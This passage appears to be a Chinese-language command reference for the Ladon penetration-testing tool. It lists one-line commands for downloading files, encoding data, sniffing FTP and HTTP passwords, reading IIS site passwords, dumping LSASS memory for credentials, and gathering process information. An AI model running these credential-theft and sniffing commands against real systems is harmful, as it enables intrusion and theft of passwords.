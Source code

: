 

### FTP下载、HTTP下载

##### 045 HTTP下载
Ladon HttpDownLoad http://k8gege.org/Download/Ladon.rar

##### 046 Ftp下载 	
Ladon FtpDownLoad 127.0.0.1:21 admin admin test.exe

### 加密解密(HEX/Base64)

##### 047 Hex加密解密

Ladon 123456 EnHex
Ladon 313233343536 DeHex

##### 048 Base64加密解密

Ladon 123456 EnBase64
Ladon MTIzNDU2 DeBase64

### 网络嗅探

##### 049 Ftp密码嗅探 	
Ladon FtpSniffer 192.168.1.5

##### 050 HTTP密码嗅探 	
Ladon HTTPSniffer 192.168.1.5

##### 051 网络嗅探	
Ladon Sniffer

### 密码读取

##### 052 读取IIS站点密码、网站路径
Ladon IISpwd

##### DumpLsass内存密码 	
Ladon DumpLsass

### 信息收集

##### 053 进程详细信息 	
Ladon EnumProcess
Ladon Tasklist

##### 054 获取命令行参数 	
Ladon cmdline
Ladon cmdline cmd.exe

##### 055 获取渗透基础信息 	
Ladon GetInfo
Ladon GetInfo2
